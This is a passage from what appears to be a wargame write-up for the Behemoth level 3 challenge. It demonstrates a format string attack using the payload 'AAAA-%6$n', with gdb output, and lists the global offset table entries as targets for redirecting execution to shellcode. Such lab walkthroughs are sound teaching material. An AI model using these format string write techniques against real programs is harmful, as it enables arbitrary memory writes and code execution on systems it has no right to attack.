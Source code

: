 From this we know that we are the sixth element on the stack. 

Let’s go ahead and test this theory. We are going to utilize the n parameter to write a value to an address we specify. In this example we are going to write the value of "5" to an Address of 0x41414141 ("AAAA")

We will use the following string. "AAAA-%6$n", To break it down AAAA is the address we are going to attempt to write to, %6 states that we want to write to the 6th address on the stack. Finally $n states that we want to write all the characters up to the %6. In this case the value is 5.

{% highlight bash %}
(gdb) run
Starting program: /games/behemoth/behemoth3 
Identify yourself: AAAA-%6$n

Program received signal SIGSEGV, Segmentation fault.
0xf7e687e3 in vfprintf () from /lib32/libc.so.6
(gdb) x/i $eip
=> 0xf7e687e3 <vfprintf+14051>:	mov    %ecx,(%eax)
(gdb) x/x $ecx
0x5:	Cannot access memory at address 0x5
(gdb) x/x $eax
0x41414141:	Cannot access memory at address 0x41414141
{% endhighlight %}

Let’s break this down - 
First we get a segfault that is expected as we are attempting to write to an invalid address

x/i $eip - We notice that in our instruction pointer is showing a "mov" and its moving what’s in our ECX buffer into EAX. Also in this case EAX is being used as EAX’s value is being used as a pointer.

x/x $ecx - By looking at the ECX buffer we can see that indeed the value of 5 is the value we are trying to put into EAX.

x/x $eax - Shows that indeed the value of EAX is 0x41414141

For the sake of keeping this short. If the address was valid it would allow us to overwrite any address with our own. We can use this to overwrite a function pointer later on in the application execution and make it point to our own shell code.

So now we need to find an address to overwrite. Many applications call external libraries for their functions and this one is no different. By looking at the global offset table we can identify what functions are being called from external libraries.

{% highlight bash %}
behemoth3@melinda:/tmp/bh3$ objdump -R /behemoth/behemoth3

/behemoth/behemoth3:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049778 R_386_GLOB_DAT    __gmon_start__
080497a4 R_386_COPY        stdin
08049788 R_386_JUMP_SLOT   printf
0804978c R_386_JUMP_SLOT   fgets
08049790 R_386_JUMP_SLOT   puts
08049794 R_386_JUMP_SLOT   __gmon_start__
08049798 R_386_JUMP_SLOT   __libc_start_main

{% endhighlight %}
